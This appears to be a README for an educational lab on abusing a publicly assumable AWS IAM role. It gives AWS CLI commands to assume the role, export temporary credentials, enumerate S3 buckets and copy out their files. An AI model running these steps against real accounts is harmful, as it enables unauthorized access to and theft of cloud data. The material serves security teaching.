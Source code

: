 #  Exploiting a Public IAM Role to Access Sensitive Data

This hands-on scenario demonstrates how an attacker can assume a **public IAM role** using AWS CLI and abuse temporary credentials to access **S3 buckets**, **enumerate IAM identities**, and extract sensitive data.

>  Educational use only. Do **not** run against production or unauthorized AWS environments.

---

## Objective

- Assume a public IAM role (exposed via misconfig or EC2 SSRF)
- Export temporary credentials
- Access a sensitive S3 bucket
- Optional: Enumerate IAM and explore EC2 metadata

---

##  Requirements

- AWS CLI installed (`aws --version`)
- Exposed IAM Role ARN
- Internet access
- Linux/Mac or WSL terminal

---

##  Exploitation Steps

### 1️ Assume the Public IAM Role

```bash
aws sts assume-role \
  --role-arn arn:aws:iam::<ACCOUNT_ID>:role/PublicExploitableRole \
  --role-session-name attacker-session
```
## Export Temporary Credentials
```bash
export AWS_ACCESS_KEY_ID="ASIA...."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."
```
## Confirm identity:
```bash
aws sts get-caller-identity
```
## List S3 Buckets (Recon)
```bash
aws s3 ls
```
## Access the Target S3 Bucket
```bash
aws s3 ls s3://<bucket-name>

aws s3 cp s3://<bucket-name>/<file-name> .
```





